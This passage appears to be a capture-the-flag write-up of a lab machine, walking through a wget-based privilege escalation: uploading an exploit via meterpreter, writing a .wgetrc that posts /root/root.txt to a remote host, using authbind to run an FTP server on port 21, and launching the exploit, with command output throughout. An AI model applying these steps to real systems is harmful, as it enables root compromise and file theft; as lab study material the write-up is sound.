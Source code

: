 Upload it to the server (If the tmp dir was created by the user then you might have to change perms toupload stuff to it)

```
meterpreter > pwd
/tmp/dotalol
meterpreter > upload exploit.py
[*] uploading  : exploit.py -> exploit.py
[*] uploaded   : exploit.py -> exploit.py
```

Now we create a .wgetrc

```
cat <<_EOF_>.wgetrc
post_file = /root/root.txt
output_document = /tmp/dotalol/wget-exploit.txt
_EOF_

ls -la
total 16
drwxr-x---  2 tomcat tomcat 4096 Dec 23 18:05 .
drwxrwxrwt 13 root   root   4096 Dec 23 18:01 ..
-rw-r-----  1 tomcat tomcat   75 Dec 23 18:05 .wgetrc
-rw-r-----  1 tomcat tomcat 2908 Dec 23 18:01 exploit.py
```

The POC then asks us to run ```python -m pyftpdlib -p21 -w```

However when we try to run it, it gives us socket error Permission denied

After reading up on [this](https://stackoverflow.com/a/24001186) we try to find what would allow us to use ports below 1024, and what is find is gold! [authbind](https://packages.debian.org/stable/authbind)

When we try and run ```authbind python -m pyftpdlib -p21 -w``` it says permission denied, maybe we need to be atanas for this

```
atanas@kotarak-dmz:/tmp/dotalol$ authbind python -m pyftpdlib -p21 -w
authbind python -m pyftpdlib -p21 -w
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2017-12-23 18:17:13] >>> starting FTP server on 0.0.0.0:21, pid=18589 <<<
[I 2017-12-23 18:17:13] concurrency model: async
[I 2017-12-23 18:17:13] masquerade (NAT) address: None
[I 2017-12-23 18:17:13] passive ports: None
[I 2017-12-23 18:17:14] 10.0.3.1:36418-[] FTP session opened (connect)
```

Now we Ctrl+Z out and spawn a new shell with which we can run the exploit.py
```
atanas@kotarak-dmz:/tmp/dotalol$ authbind python exploit.py
authbind python exploit.py
Ready? Is your FTP server running?
FTP found open on 10.0.3.1:21. Let's go then

Serving wget exploit on port 80...


10.0.3.133 - - [23/Dec/2017 18:24:01] code 404, message File not found
10.0.3.133 - - [23/Dec/2017 18:24:01] "HEAD /archive.tar.gz HTTP/1.1" 404 -

..
..
..
```
